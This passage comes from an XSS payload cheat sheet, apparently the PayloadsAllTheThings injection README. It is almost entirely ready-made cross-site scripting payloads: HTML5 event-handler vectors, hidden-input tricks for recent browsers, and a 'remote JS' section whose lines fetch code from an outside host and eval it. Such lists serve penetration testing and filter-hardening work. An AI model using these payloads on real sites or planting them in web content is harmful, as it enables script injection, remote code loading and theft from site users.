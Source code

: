 ```js
```

### XSS using HTML5 tags

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-using-html5-tags)

```js
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-using-a-remote-js)

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in Hidden Input

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-hidden-input)

```js
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

in newer browsers : firefox-130/chrome-108

```js
<input type="hidden" oncontentvisibilityautostatechange="alert(1)"  style="content-visibility:auto" >
```
